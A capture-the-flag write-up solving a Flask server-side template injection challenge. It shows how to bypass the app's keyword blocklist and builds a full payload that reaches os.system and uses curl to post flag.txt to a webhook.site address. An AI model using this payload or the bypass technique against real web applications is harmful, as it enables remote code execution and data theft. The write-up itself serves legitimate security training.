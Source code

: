 ```yaml
---
title: "[AVCTF2021] Super Secure Trustable Implementation"
slug: avctf2021-ssti
author: [zhaoyun]
date: 2021-12-21
tags: [ctf, web, writeup]
---
```


> I've added a bunch of filters, so my app must be really secure now.
>
> Flag in `flag.txt`
>
> URL: http://35.240.143.82:4209/

The source, `main.py` is included hence we should take a look.

```python
import secrets
from flask import Flask, render_template_string, request

app = Flask(__name__)


@app.route("/")
def index():
    name = request.args.get("name", default="World")
    # Evil hacker cannot get past now!
    blocklist = ["{{", "}}", "__", "subprocess", "flag", "popen", "system", "os", "import", "read", "flag.txt"]
    for bad in blocklist:
        name = name.replace(bad, "")
    return render_template_string(f"<h1> Hello, {name}")
```

Since the server uses `render_template_string` it's vulnerable to `{{}}` template string attacks.

If we use `{{ 'Hello'+' '+'World' }}` for name, it would give us `Hello World` as the string inside is ran as code.

### Blocklist Bypass

However as we can see, there is an blocklist, and it includes `{{` and `}}`.

To bypass this filter we can simply insert blocklisted words inside of blocklisted words. For example

`{flag{}flag}` will not trigger when checking for `{{` and `}}`, but will have `flag` removed when checking for flag, and would result in `{{}}` as the end output.

Making use of this, we can construct our payloads with the help of a little script.

> I had troubles with reading the file so I decided to just send the file content via curl
>
> webhook.site is a easy to use site for sending data back

```python
bypass = ["{{", "}}", "__", "subprocess", "flag", "popen", "system", "os", "import", "read"]
bypass.reverse()
payload = ''
for toby in bypass:
    payload = payload.replace(toby, toby[0] + "read" + toby[1:])
print(payload)
name = payload
blocklist = ["{{", "}}", "__", "subprocess", "flag", "popen", "system", "os", "import", "read", "flag.txt"]
for bad in blocklist:
    name = name.replace(bad, "")
print(f"<h1> Hello, {name}")
```

### Bypassing certain unknown filters

If one simply use `__import__`, one will soon realise that it does not exist, this could have been done by deleting built-ins from the python run time.

We can restore the built-ins via `reload(__builtins__)`, however it is obviously, also deleted.

We need to find `__import__` somehow.

With some experimenting, we can find that

```python
>>> ().__class__.__bases__
(<type 'object'>,)
```

The tuple inherits directly from `object`, hence we can find the list of types (extends object) by sending the payload

##### `{{().__class__.__bases__[0].__subclasses__()}}`

```
Hello, [<class 'type'>, <class 'async_generator'>, <class 'int'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>, <class 'bytes'>... <class 'flask.blueprints.BlueprintSetupState'>]
```

Much of the output is useless, `_frozen_importlib_external.FileLoader` looks a bit suspicious though. (it is at position 118)

##### `{{().__class__.__bases__[0].__subclasses__()[118]}}`

```
Hello, <class '_frozen_importlib_external.FileLoader'>
```

Just verifying that the class is the `FileLoader`, now lets see what builtins this FileLoader has

##### `{{().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__["__builtins__"]}}`

```
Hello, {'__name__': 'builtins' ... '__import__': <built-in function __import__>,  ...help, or help(object) for help about object.}
```

**Hooray!** We found `__import__`, now we just have to combine the payload into

```python
{{(().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__["__builtins__"])["__im"+"port__"]("o"+"s").system("curl -X POST --data-binary @flflag.txtag.txt https://webhook.site/40a3fae4-f378-4100-837c-8f94953fbbc9")}}
```

`flag.txt` is manually bypassed since it contains `flag`

### Transforming the payload

```
{read{(()._read_class_read_._read_bases_read_[0]._read_subclasses_read_()[118]._read_init_read_._read_globals_read_["_read_builtins_read_"])["_read_im"+"port_read_"]("o"+"s").sreadystem("curl -X POST --data-binary @flfreadlag.txtag.txt https://webhook.site/40a3fae4-f378-4100-837c-8f94953fbbc9")}read}

<h1> Hello, {{(().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__["__builtins__"])["__im"+"port__"]("o"+"s").system("curl -X POST --data-binary @flag.txt https://webhook.site/40a3fae4-f378-4100-837c-8f94953fbbc9")}}
```

The first line is our payload, and after running the same blocklist operations as the server, the resulting string looks ok.

### Sending the payload

`http://35.240.143.82:4209/?name={read{(()._read_class_read_._read_bases_read_[0]._read_subclasses_read_()[118]._read_init_read_._read_globals_read_["_read_builtins_read_"])["_read_im"+"port_read_"]("o"+"s").sreadystem("curl -X POST --data-binary @flfreadlag.txtag.txt https://webhook.site/40a3fae4-f378-4100-837c-8f94953fbbc9")}read}`

And after checking webhook.site

```
flag{server_side_rendering_is_fun_but_dangerous_sometimes}
```

Flag obtained
